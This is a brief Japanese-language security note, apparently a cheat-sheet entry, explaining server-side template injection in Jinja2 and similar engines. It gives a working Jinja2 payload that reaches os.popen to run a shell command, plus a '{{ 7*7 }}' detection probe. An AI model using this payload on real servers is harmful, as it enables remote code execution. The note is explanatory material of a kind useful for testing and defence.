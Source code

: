 # Server-Side Template Injection (SSTI)
テンプレートエンジン(Jinja2, Twigなど)にユーザ入力が直接渡るとテンプレート構文でコード実行が可能

## 実践例: Jinja2 SSTI
```python
{{ config.__class__.__init__.__globals__['os'].popen('id').read() }}
```

## よくある形式

- {{ 7*7 }} -> 49が返ってくるかどうかでSSTI判定する
- Pythonオブジェクトチェーンで`os.popen`に到達
- Flaskアプリで`render_template_string()`が使われているケースが多い
